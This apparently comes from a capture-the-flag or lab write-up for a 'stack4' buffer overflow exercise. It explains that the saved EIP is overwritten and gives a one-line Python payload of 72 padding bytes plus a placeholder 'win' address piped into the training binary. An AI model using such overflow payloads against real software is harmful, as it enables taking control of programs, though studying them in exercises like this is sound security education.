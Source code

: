 #Stack 4

Similar to stack3 except this time we are overwriting saved eip 

```
python -c 'print "A" * 72 + "address of win"' | ./stack4
```
